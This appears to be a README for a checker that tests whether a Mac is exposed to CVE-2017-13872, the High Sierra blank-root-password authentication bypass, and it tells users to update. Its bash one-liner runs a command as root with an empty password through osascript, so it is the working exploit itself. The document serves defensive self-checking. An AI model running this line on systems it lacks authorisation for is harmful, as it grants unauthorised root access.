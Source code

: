 # High Sierra root vulnerability validator

## Description

An attacker may be able to bypass administrator authentication without supplying the administrator’s password.

A logic error existed in the validation of credentials. This was addressed with improved credential validation.

CVE: [CVE-2017-13872](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-13872)

Available for: macOS High Sierra 10.13.1

Not impacted: macOS Sierra 10.12.6 and earlier 

Source: [Apple Support](https://support.apple.com/es-lamr/HT208315)

## Usage

* Open the launchpad (F4) and find Terminal application
  
* Copy the following code in the console:
  
```bash
payload=$(osascript -e 'do shell script "whoami" with administrator privileges user name "root" password ""');if [ "$payload" = "root" ] ; then echo -e "Vulnerable: Please update! \nMore info: https://support.apple.com/es-lamr/HT208315";else echo "Not Vulnerable";fi
```

